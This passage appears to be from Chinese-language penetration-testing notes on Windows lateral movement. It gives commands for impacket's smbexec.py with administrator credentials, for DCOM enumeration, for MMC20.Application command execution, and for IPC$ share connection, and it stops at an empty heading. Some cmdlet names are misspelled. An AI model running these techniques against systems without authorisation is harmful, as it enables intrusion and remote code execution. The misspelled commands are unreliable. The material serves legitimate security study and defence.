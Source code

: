 ### [](#impacket-%E5%B7%A5%E5%85%B7%E5%8C%85%E4%B8%AD%E7%9A%84-smbexecpy)impacket 工具包中的 smbexec.py

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>smbexec.py penteer/administrator:password\@IP<br>``` |

## [](#dcom-%E5%9C%A8%E8%BF%9C%E7%A8%8B%E7%B3%BB%E7%BB%9F%E4%B8%AD%E7%9A%84%E4%BD%BF%E7%94%A8)DCOM 在远程系统中的使用

### [](#%E9%80%9A%E8%BF%87%E6%9C%AC%E5%9C%B0-dcom-%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4)通过本地 DCOM 执行命令

#### [](#%E8%8E%B7%E5%8F%96-dcom-%E7%A8%8B%E5%BA%8F%E5%88%97%E8%A1%A8)获取 DCOM 程序列表

windows server 2012 及以上

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>Get-CimInstance Win32_DCOMApplicatioon<br>``` |

Windows 7, Windows Server 2008

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>Get-WmicObject -Namespace ROOT\CIMV2 -Class Win32_DCOMApplication<br>``` |

#### [](#%E4%BD%BF%E7%94%A8-dcom-%E6%89%A7%E8%A1%8C%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4)使用 DCOM 执行任意命令

本地启动一个管理员权限的 powershell

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","127.0.0.1")).Document.ActiveView.ExecuteShellCommand("cmd.exe","0","/c calc.exe","Minimzed")<br>``` |

### [](#%E4%BD%BF%E7%94%A8-dcom-%E5%9C%A8%E8%BF%9C%E7%A8%8B%E6%9C%BA%E5%99%A8%E4%B8%8A%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4)使用 DCOM 在远程机器上执行命令

远程连接时必须使用具有本地管理员权限的账号

#### [](#%E4%BD%BF%E7%94%A8-ipc-%E8%BF%9E%E6%8E%A5%E8%BF%9C%E7%A8%8B%E8%AE%A1%E7%AE%97%E6%9C%BA)使用 IPC$ 连接远程计算机

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>net use \\IP "password" /user:pentest.hacker\win7user<br>``` |

#### [](#%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4)执行命令

